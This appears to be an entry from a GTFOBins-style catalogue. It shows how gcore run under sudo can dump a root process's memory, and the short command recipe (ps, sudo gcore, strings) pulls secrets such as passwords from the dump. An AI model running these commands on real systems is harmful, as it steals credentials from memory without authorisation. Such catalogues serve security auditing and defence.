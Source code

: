 ```yaml
---
description: It may be used to generate core dumps of one or more running programs. This may lead to sensitive information leakage as passwords.
functions:
  sudo:
    - description: If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
    - code: |
        # look for an interesting running process and grab its PID
        ps aux | grep root
        # generate the dump by issuing to gscope the PID
        sudo gcore $PID
        # look for interesting information inside the dump
        strings core.$PID
---
```


